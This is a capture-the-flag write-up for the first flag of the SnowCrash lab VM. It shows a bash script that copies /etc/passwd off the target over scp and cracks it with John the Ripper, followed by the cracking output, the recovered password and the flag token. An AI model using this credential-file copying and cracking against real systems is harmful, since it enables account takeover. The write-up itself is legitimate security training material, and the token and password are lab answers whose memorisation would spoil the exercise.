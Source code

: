 # Flag 01

The flag 01 was the first flag we found, after a quick google search on how to crack linux users passwords we found out about john the ripper

so we created a little bash script to copy the /etc/passwd from the VM to the host and crack the passwords with john

```bash
#!/bin/sh

if [$1 = ""];then
	echo "usage ./crack <ip>"
	exit 1
else
	scp -P 4242 level00@$1:/etc/passwd .
	/usr/sbin/john ./passwd --show
fi
```

we used the passwd `abcdefg` to connet to user flag01.
```
./crack.sh: 3: [192.168.1.106: not found
           _____                      _____               _     
          / ____|                    / ____|             | |    
         | (___  _ __   _____      _| |     _ __ __ _ ___| |__  
          \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \ 
          ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
         |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|
                                                        
  Good luck & Have fun

          192.168.1.106 
level00@192.168.1.106's password: 
passwd                                                                                                                                                             100% 2477     5.6MB/s   00:00    
flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash

1 password hash cracked, 0 left
```
And we got our flag using the password `abcdefg`

```
level01@SnowCrash:~$ su flag01
Password: 
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```